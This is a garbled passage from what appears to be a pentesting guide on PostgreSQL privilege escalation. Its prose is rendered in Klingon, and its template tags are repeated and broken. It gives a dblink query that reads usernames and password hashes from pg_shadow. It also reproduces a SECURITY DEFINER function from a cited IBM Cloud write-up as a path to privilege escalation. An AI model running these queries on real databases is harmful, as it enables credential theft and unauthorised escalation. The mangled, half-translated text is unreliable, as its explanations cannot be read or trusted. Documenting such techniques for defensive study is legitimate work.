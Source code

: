 {% code title="Klingon" %}
{% code title="Klingon" %}
{% code title="Klingon" %}
{% code title="
```sql
SELECT * FROM dblink('host=127.0.0.1
user=someuser
dbname=somedb',
'SELECT usename,passwd from pg_shadow')
RETURNS (result TEXT);
```
ghItlh 'e' vItlhutlh.
```sql
SELECT * FROM pg_proc WHERE proname='dblink' AND pronargs=2;
```
### **SECURITY DEFINER** jatlh custom defined function

[**In this writeup**](https://www.wiz.io/blog/hells-keychain-supply-chain-attack-in-ibm-cloud-databases-for-postgresql), pentesters were able to privesc inside a postgres instance provided by IBM, because they **found this function with the SECURITY DEFINER flag**:

<pre class="language-sql"><code class="lang-sql">CREATE OR REPLACE FUNCTION public.create_subscription(IN subscription_name text,IN host_ip text,IN portnum text,IN password text,IN username text,IN db_name text,IN publisher_name text)
RETURNS text
LANGUAGE 'plpgsql'
<strong>    VOLATILE SECURITY DEFINER
</strong>    PARALLEL UNSAFE
COST 100

AS $BODY$
DECLARE
persist_dblink_extension boolean;
BEGIN
persist_dblink_extension := create_dblink_extension();
PERFORM dblink_connect(format('dbname=%s', db_name));
PERFORM dblink_exec(format('CREATE SUBSCRIPTION %s CONNECTION ''host=%s port=%s password=%s user=%s dbname=%s sslmode=require'' PUBLICATION %s',
subscription_name, host_ip, portNum, password, username, db_name, publisher_name));
PERFORM dblink_disconnect();
…
</code></pre>

